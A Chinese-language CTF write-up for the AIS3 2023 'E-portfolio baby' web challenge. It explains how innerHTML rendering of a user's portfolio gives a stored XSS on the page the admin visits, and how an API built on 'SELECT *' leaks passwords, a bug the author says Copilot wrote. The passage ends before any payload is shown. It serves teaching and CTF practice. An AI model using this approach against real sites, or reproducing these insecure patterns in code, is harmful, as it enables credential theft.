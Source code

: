 #### E-portfolio baby

[題目 source code](https://github.com/Ching367436/My-CTF-Challenges/tree/main/ais3-pre-exam/2023/web/e-portfolio-baby)

- 解題人數
  - MyFirstCTF: 0 / 111 (score >= 100)
  - Pre-exam: 35 / 256 (score >= 100)


題目 註冊 / 登入 後會來到 `Edit Portfolio` 的頁面，像下面這樣。

<iframe frameBorder="0" style='overflow: visible; width: 100%; height: 35rem; ' srcdoc='<html lang="en"><head> <title>Edit Portfolio</title> <script async="" src="https://www.clarity.ms/s/0.7.8/clarity.js"></script><script async="" src="https://www.clarity.ms/tag/gsfl4ftdey"></script> <meta charset="UTF-8"> <meta http-equiv="X-UA-Compatible" content="IE=edge"> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-KK94CHFLLe+nY2dmCWGMq91rCGa5gtU4mk92HdvYe+M/SXH301p5ILy+dN9+nJOZ" crossorigin="anonymous"> <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ENjdO4Dr2bkBIFxQpeoTz1HIcje39Wm4jDKdf19U8gI4ddQ3GYNS7NTKfAdVQSZe" crossorigin="anonymous"></script>  <script async="" src="https://www.googletagmanager.com/gtag/js?id=G-2EDF3XCYWP"></script> <script nonce=""> window.dataLayer = window.dataLayer || []; function gtag() { dataLayer.push(arguments); } gtag("js", new Date()); gtag("config", "G-2EDF3XCYWP"); </script> <script type="text/javascript" nonce=""> (function (c, l, a, r, i, t, y) { c[a] = c[a] || function () { (c[a].q = c[a].q || []).push(arguments) }; t = l.createElement(r); t.async = 1; t.src = "https://www.clarity.ms/tag/" + i; y = l.getElementsByTagName(r)[0]; y.parentNode.insertBefore(t, y); })(window, document, "clarity", "script", "gsfl4ftdey"); </script> <style> body { background-color: #ffed4a; } </style></head> <body> <div class="container-sm mt-5"> <h1 class="mb-3">Edit Portfolio</h1> <div class="row mb-5"> <div class="col-sm-3"> <h3 class="mb-3 mt-3">Photo</h3> <img &#115;rc="/images/Ching367436.webp" class="img-fluid" id="avatar" style="width: 15rem;"> <div class="mt-3 mb-3"> <label class="form-label" for="avatarFile">Upload avatar</label> <input type="file" class="form-control" id="avatarFile"> </div> </div> <div class="col-sm-9"> <h3 class="mt-3">About <span id="username">Ching367436</span></h3> <textarea name="" id="about" class="form-control" rows="10"><h5>Hello!</h5>
I am a <span style="color: red;">new</span> user.</textarea> </div> </div> <div class="container"> <button type="submit" class="btn btn-primary mb-2" id="save">Save</button> <button type="submit" class="btn btn-primary mb-2" id="logout">Logout</button> <button type="submit" class="btn btn-primary mb-2" id="share">Share</button> <button type="submit" class="btn btn-primary mb-2" id="report">Share your portfolio with admin</button> <div class="g-recaptcha" data-sitekey="6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI" data-callback="onReport" data-size="invisible"></div></div></body></html>'></iframe>

按下 Share 後可以看到輸入的 portfolio 的 HTML 被 render 出來了。而這個頁面正是按下 Share your portfolio with admin 後，admin 會拜訪的頁面，要透過這個頁面的 XSS 偷走 admin 的密碼。

<iframe frameBorder="0" style='overflow: visible; width: 100%; height: 35rem; ' srcdoc='<html lang="en"><head> <title>Share</title> <meta charset="UTF-8"> <meta http-equiv="X-UA-Compatible" content="IE=edge"> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-KK94CHFLLe+nY2dmCWGMq91rCGa5gtU4mk92HdvYe+M/SXH301p5ILy+dN9+nJOZ" crossorigin="anonymous"> <script async="" src="https://www.clarity.ms/tag/gsfl4ftdey"></script><script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ENjdO4Dr2bkBIFxQpeoTz1HIcje39Wm4jDKdf19U8gI4ddQ3GYNS7NTKfAdVQSZe" crossorigin="anonymous"></script>  <script async="" src="https://www.googletagmanager.com/gtag/js?id=G-2EDF3XCYWP"></script> <script nonce=""> window.dataLayer = window.dataLayer || []; function gtag() { dataLayer.push(arguments); } gtag("js", new Date()); gtag("config", "G-2EDF3XCYWP"); </script> <script type="text/javascript" nonce=""> (function (c, l, a, r, i, t, y) { c[a] = c[a] || function () { (c[a].q = c[a].q || []).push(arguments) }; t = l.createElement(r); t.async = 1; t.src = "https://www.clarity.ms/tag/" + i; y = l.getElementsByTagName(r)[0]; y.parentNode.insertBefore(t, y); })(window, document, "clarity", "script", "gsfl4ftdey"); </script> <style> body { background-color: #ffed4a; } </style></head> <body> <div class="container mt-5"> <h1 class="mb-3">Edit Portfolio</h1> <div class="row mb-5"> <div class="col-sm-3"> <h3 class="mb-3 mt-3">Photo</h3> <img &#115;rc="/images/Ching367436.webp" class="img-fluid" id="avatar" style="width: 15rem;"> </div> <div class="col-sm-9"> <h3 class="mb-3 mt-3">About <span id="username">Ching367436</span></h3> <div id="about"><h5>Hello!</h5> I am a <span style="color: red;">new</span> user.</div> </div> </div> </div></body></html>'></iframe>

[source code](https://github.com/Ching367436/My-CTF-Challenges/blob/main/ais3-pre-exam/2023/web/e-portfolio-baby/web/src/views/share.eta#L30) 裡，也就是下面的第 7 行用了 `innerHTML`，而 `data.data.about` 也是我們可完全控制的，所以表示我們能 XSS。

```HTML
<script nonce="<%= it.nonce %>">
    fetch(`/api/share${location.search}`)
        .then(res => res.json())
        .then(data => {
            if (data.success) {
                username.innerHTML = data.data.username
                about.innerHTML = data.data.about
                avatar.src = data.data.avatar
            } else {
                alert(data.message)
            }
        })
</script>
```

有 XSS 後還需要找到能偷 密碼 的地方，剛好 [`/api/portfolio`](https://github.com/Ching367436/My-CTF-Challenges/blob/main/ais3-pre-exam/2023/web/e-portfolio-baby/web/src/app.js#L120-L130) 可以拿到使用者的密碼，因為他用了 `SELECT *`，這個送密碼到前端是 Copilot 寫的洞，如果我沒注意到這題就會變成超級水題。

```javascript
```